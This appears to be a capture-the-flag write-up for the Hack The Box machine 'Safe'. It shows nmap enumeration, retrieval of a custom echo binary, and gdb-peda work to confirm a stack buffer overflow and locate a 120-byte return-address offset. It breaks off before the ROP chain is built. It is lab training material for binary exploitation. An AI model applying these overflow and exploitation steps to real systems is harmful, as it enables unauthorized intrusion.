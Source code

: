 ```yaml
---
layout: post
title: Safe
categories: [HTB Writeup, Safe]
tags: [RCE, ROP chain, enumeration, HTB]
fullview: false
comments: true
---
```


![Safe info card](/images/safe_card.png)

A 20 point box where the foothold requires a binary exploitation/ROP. However, it gets much easier from there and the ROP is fairly straight forward.  

So let's get started.

## TL;DR

* enumerate the box to find a service (with a custom binary) on port 1337
* Identify the buffer overlfow and create a ROP chain to gain a foothold
* from shell, locate a KeePass vault with images
* crack the KeePass vault using one of the image files to gain root

## Initial Enumeration

{% highlight Ada linenos %}
db-d2@kali:~/hack_the_box$ nmap -sC -sV -sT -o safe_map 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.147
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
{% endhighlight %}

So we have http on 80 and ssh on 22. Let's check the http site

## Web Enumeration

![Safe http site](/images/safe_http.png)

Looks like the default apache page but let's inspect it anyway

![Safe http source](/images/safe_http_src.png)

So "myapp" is running on p1337 and it's available for download. Let's check out the service first

{% highlight C linenos %}
db-d2@kali:~/hack_the_box$ nc 10.10.10.147 1337
 21:05:13 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
hello

What do you want me to echo back? hello
{% endhighlight %}

Not much here, let's grab myapp and take a look

{% highlight Ada linenos %}
db-d2@kali:~/hack_the_box$ wget http://10.10.10.147/myapp
  http://10.10.10.147/myapp
Connecting to 10.10.10.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16592 (16K)
Saving to: ‘myapp’

myapp 100%[==============================================>]  16.20K  --.-KB/s  in 0.05s

db-d2@kali:~/hack_the_box$ sudo chmod +x myapp
[sudo] password for db-d2:

db-d2@kali:~/hack_the_box$ ./myapp
 21:43:47 up 58 min,  3 users,  load average: 0.01, 0.01, 0.00

What do you want me to echo back? bob
bob
{% endhighlight %}

## Myapp
Okay so we have a pretty basic app that starts off with uptime, 
takes input and echos it back. Let's see if we have a buffer overflow in here

{% highlight Ada linenos %}
What do you want me to echo back? yipyipyipyipyipyipyipyipyipyip...
...
Segmentation fault
{% endhighlight %}

And jackpot! Let's break it open in gdb and run checksec (btw, if you're not using [Peda](https://github.com/longld/peda) you should install it now)

{% highlight Ada linenos %}
Reading symbols from ./myapp...
(No debugging symbols found in ./myapp)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

NS is enabled so I won't be able to just inject and execute shellcode. I'll have to build a ROP chain. Oh, darn...

First up, I need to find the offest so let's create a pattern

{% highlight Ada linenos %}
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHA...'
gdb-peda$

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775755]
 21:10:11 up 10 days, 24 min,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcA")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0xc9
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe450 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe458 ("AAQAAmAARAAoAASAApAATAAqAAUAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe460 ("RAAoAASAApAATAAqAAUAArAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe468 ("ApAATAAqAAUAArAAVAAAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe470 ("AAUAArAAVAAtAAWAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe478 ("VAAtAAWAAuAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffe480 ("AuAAXAAAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

So we stopped on ret as it was trying to load the next stack item into the RIP. Awesome, let's own the RIP. I'll copy out "jAA9AAOA" and use it to locate the offset

{% highlight Ada linenos %}
gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120
{% endhighlight %}

Now i'll create a new pattern with a size of 120 and throw in 8 junk chars at the end

{% highlight Ada linenos %}
gdb-peda$ pattern create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775918]
 22:25:55 up 10 days,  1:40,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1KAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere\n")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("helothere")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0x82
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("helothere")
0008| 0x7fffffffe450 --> 0x7fffffff0065 --> 0x0
0016| 0x7fffffffe458 --> 0x100000000
0024| 0x7fffffffe460 --> 0x40115f (<main>:	push   rbp)
0032| 0x7fffffffe468 --> 0x7ffff7e077d9 (<init_cacheinfo+297>:	mov    rbp,rax)
0040| 0x7fffffffe470 --> 0x0
0048| 0x7fffffffe478 --> 0x35136ec0411f0d74
0056| 0x7fffffffe480 --> 0x401070 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhightlight %}

Cont...
